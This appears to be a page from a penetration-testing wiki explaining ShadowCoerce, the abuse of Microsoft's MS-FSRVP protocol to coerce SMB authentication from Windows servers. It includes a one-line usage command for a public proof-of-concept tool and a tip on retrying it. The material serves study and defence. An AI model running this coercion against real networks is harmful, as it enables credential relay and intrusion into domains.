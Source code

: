 # MS-FSRVP abuse (ShadowCoerce)

## Theory

MS-FSRVP is Microsoft's File Server Remote VSS Protocol. It's used for creating shadow copies of file shares on a remote computer, and for facilitating backup applications in performing application-consistent backup and restore of data on SMB2 shares ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)).

In late 2021, [Lionel GILLES](https://twitter.com/topotam77) published [slides](https://twitter.com/topotam77/status/1475701014204461056) showcasing [PetitPotam](ms-efsr.md) and demonstrating the possibility of abusing the protocol to coerce authentications on the last two slides.

Similarly to other MS-RPC abuses, this works by using a specific method relying on remote UNC paths. In this case, at the time of writing, two methods were detected as vulnerable: `IsPathSupported` and `IsPathShadowCopied`.

**The coerced authentications are made over SMB**. Unlike other similar coercion methods (MS-RPRN printerbug, MS-EFSR petitpotam), I doubt MS-FSRVP abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP. <mark style="color:orange;">This is just a theory at the time of writing, 29th December 2021, I haven't tested it yet.</mark>

A requirement to the abuse is to have the "File Server VSS Agent Service" enabled on the target server.

![](<../../../.gitbook/assets/File Server VSS Agent Service.png>)

## Practice

The following Python proof-of-concept ([https://github.com/ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)) implements the `IsPathSupported` and `IsPathShadowCopied` methods.

```bash
shadowcoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

![](<../../../.gitbook/assets/MS FSRVP abuse example.png>)

{% hint style="info" %}
In my tests, the coercion needed to be attempted twice in order to work when the FssAgent hadn't been requested in a while. In short, run the command again if it doesn't work the first time.
{% endhint %}

## Resources

Topotam's tweet: [https://twitter.com/topotam77/status/1475701014204461056](https://twitter.com/topotam77/status/1475701014204461056)

Topotam's slides: [https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir](https://fr.slideshare.net/LionelTopotam/petit-potam-slidesrtfmossir)

{% file src="../../../.gitbook/assets/PetitPotam-SLIDES-RTFM_OSSIR.pdf" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b" %}
